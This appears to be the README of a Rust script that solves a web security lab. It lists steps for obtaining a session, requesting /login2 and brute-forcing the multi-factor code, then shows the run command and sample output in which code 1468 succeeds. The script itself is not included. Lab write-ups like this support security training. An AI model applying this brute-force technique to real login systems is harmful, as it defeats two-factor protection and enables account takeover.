 # Hack Steps
1. Get a valid session using valid credentials
2. GET /login2 page
3. Brute force the mfa-code

# Run Script
1. Change the URL of the lab
2. Start script
```
~$ cargo run
```

# Expected Output
```
1. Obtaining a valid session ..OK
2. GET /login2 page ..OK
3. Start brute forcing mfa-code ..
[*] 1467 => Incorrect
[*] 1468 => Correct
✅ Finished in: 4 minutes
```

